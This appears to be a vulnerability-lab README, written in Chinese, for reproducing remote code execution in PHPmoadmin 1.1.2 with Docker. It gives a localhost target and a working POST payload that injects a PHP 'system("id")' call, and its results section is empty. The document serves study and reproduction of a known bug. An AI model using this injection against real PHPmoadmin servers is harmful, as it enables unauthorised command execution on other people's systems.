

# PHPmoadmin RCE
## 漏洞描述
PHPmoadmin RCE
  
version:1.1.2
## 启动
`docker-compose up -d`
## writeup  
访问`http://localhost:8888/moadmin.php`,将payload用POST发送。

payload:
`object=1;system("id");`  

## 复现结果
  

